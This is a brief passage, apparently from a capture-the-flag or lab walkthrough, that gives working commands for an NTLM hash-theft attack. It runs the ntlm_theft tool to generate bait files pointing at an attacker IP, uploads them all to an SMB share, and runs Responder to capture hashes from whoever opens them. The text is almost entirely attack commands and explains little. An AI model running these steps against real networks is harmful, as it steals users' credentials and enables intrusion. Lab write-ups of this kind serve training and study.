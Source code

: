 https://github.com/Greenwolf/ntlm_theft
```
python ntlm_theft.py -g all -s 10.10.14.6 -f
```

Then connect to the SMB share within this directory and upload all files as:
```
mput *
```

Whilst having Responder on:

```
Responder -I tun1 
```
